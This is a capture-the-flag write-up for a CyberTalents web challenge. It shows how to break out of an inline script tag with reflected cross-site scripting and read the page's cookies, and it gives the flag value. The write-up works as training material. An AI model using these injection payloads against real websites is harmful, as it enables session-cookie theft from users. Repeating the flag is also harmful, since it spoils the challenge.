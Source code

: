 # CyberTalents
## Web Security

### Challenge Name:
 [* Searching for the cookie*](https://cybertalents.com/challenges/web/searching-for-the-cookie)
 
### Challenge Description
simple search website we need to know which cookie to eat ;)

Link: [http://34.77.37.110/searching-cookie/](http://34.77.37.110/searching-cookie/)

### Solution
* Try write "<script>alert(2)</script>" in the textbox nothing will happen
* Open source code in new tab (ctrl + u)
```html
<script>var currentSearch = {'keyword':'you searched for: <script>alert(2)</script>'};</script>
```
* Now we want to close first script tag then open new one for alert, try it in the textbox
```html
</script> <script>alert(2)</script> 
```
* It works, so now try that but with cookies
```html
</script><script>alert(document.cookie)</script> 
```
* You got the Flag!!


### The Flag
 > coolcookie112
